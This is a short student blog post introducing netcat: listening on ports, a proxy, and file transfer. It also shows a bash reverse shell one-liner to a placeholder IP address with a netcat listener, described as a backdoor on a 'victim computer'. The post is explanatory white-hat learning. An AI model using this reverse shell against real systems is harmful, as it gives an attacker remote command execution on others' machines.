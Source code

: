 ```yaml
---
layout: post
title:  "Netcat: Woah"
date:   2017-02-24 14:43:20 +0000
---
```



File this one under semi-relevant but super neat. My first exposure to netcat was through an offhand comment made by our instructor Steven, in which he said it was pretty crazy. If i’ve learned anything about Steven, with his background in network security, it’s to pay attention to the things he mentions as cool, because they probably are. This was no exception. In this blog post, I’ll cover some of the basics of netcat, as well as some neat tricks you can do with it. 

	Type “man nc” into your terminal and even the first couple of lines are intriguing. Not even the first couple of lines in your iPhone’s manual were intriguing, so this is already a good start:
	“nc -- arbitrary TCP  and UDP connections and listens… the nc (or netcat) utility is used for just about anything under the sun involving TCP or UDP.”

	Having learned all about how the internet works earlier this week we, we were exposed to TCP and UDP as part of the transport layer in the internet protocol suite. Simply put, these protocols allow for the transference of data via hosts communicating by an IP network. As such, netcat was originally conceived as a network utility for reading and writing to network connections, a general-purpose networking tool. 

Some basic applications of nc include:

Checking if ports on the network are open
To listen for connections on TCP port 8080. : nc -l 8080
Creating an HTTP proxy server:
 To create a proxy server on localhost port 8888. : nc -l --proxy-type http localhost 8888
Encrypted file transfer: 
When you SSH in, add -L 31000:127.0.0.1:31000
On the remote: nc -lvnp 31000 127.0.0.1 > file
On the local: nc -v -w 2 127.0.0.1 31000 < file

	Clearly this is an extremely versatile and useful tool for diagnosing problems on a network. However beyond that, nc is also a favorite tool of hackers, known to some as  “the swiss army knife of hacking tools”. From the examples above, even successfully sending an encrypted file has obvious hacking applications. However, in order for the file to be opened on the remote, someone needs to be on the receiving end typing in the command. Or do they? 
	
	![]( http://giphy.com/gifs/rick-and-morty-1107IdxsMU7I6khttp://)
	
	
	
	One tricky thing that nc can be used to do is to create a reverse shell to remotely execute commands over any open port using netcat or BASH. A reverse shell is a type of shell in which another ‘attacking’ machine can execute commands. You can create one with a single line of code : bash -i >& /dev/tcp/youripaddress/1337 0>&1
Next, we create a backdoor with our trusty friend netcat: nc -l 1337    

And voila, we’re done(more or less). You can use this to make the victim computer do funny things like speaking out loud: “say [thing]”, and beyond that more malicious applications are pretty apparent. 

	So, being a student of code and its legal applications, why would I want to learn such a thing? Online, there’s a type of hacker called a “white hat,” someone who uses hacker’s tools for educational and non-malicious purposes. If I am to contribute to helping preserve and develop online infrastructure, a deep understanding of all of the tools at our disposal is crucial, regardless of how fun they are.



Sources: 
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf  
https://en.wikipedia.org/wiki/Netcat (yes I’m listing Wikipedia as a source, just bein’ honest!) 
http://www.thegeekstuff.com/2012/04/nc-command-examples/?utm_source=feedburner
https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

